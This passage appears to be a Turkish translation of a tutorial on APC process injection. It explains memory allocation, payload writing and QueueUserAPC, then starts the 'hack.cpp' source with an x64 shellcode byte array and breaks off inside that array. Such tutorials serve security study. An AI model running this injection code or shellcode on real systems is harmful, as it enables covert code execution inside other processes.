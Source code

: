 Daha sonra, hedef süreçte payload'ımız için alan tahsis edin:      

![APC injection 3](./images/23/2021-11-22_16-03.png){width="80%"}    

Gördüğünüz gibi, bu alan `PAGE_EXECUTE_READWRITE` izinleriyle tahsis edilmelidir, bu da çalıştırma, okuma ve yazma anlamına gelir.     

Bir sonraki adımda, payload’ımızı tahsis edilen belleğe yazarız:    

![APC injection 4](./images/23/2021-11-22_16-07.png){width="80%"}    

Sonra hedef süreç iş parçacıklarını buluruz. Bunun için başka bir işlev olan `getTids`'i yazdım:      

![APC injection 5](./images/23/2021-11-22_16-09.png){width="80%"}    

`getTids`, bir süreç PID'si tarafından tüm iş parçacıklarını bulur. Tüm iş parçacıklarını sıralarız ve iş parçacığı hedef sürecimize aitse, bunu `tids` vektörümüze ekleriz.       

Ardından, tüm iş parçacıklarına payload'ımızı çalıştırmak için bir APC sıraya alın:     

![APC injection 6](./images/23/2021-11-22_16-11.png){width="80%"}    

Gördüğünüz gibi, `QueueUserAPC` işlevini kullanarak iş parçacığına bir `APC` sıraya alıyoruz. İlk parametre, çalıştırmak istediğimiz işlevin bir işaretçisi olmalı, yani payload'ın bir işaretçisi ve ikinci parametre, uzak iş parçacığına bir işleyicidir.    

Zararlı yazılımımızın tam C++ kaynak koduna bir göz atalım:     

```cpp
/*
hack.cpp
APC injection via Queue an APC into all the threads
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/22/malware-injection-5.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>
#include <vector>

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
```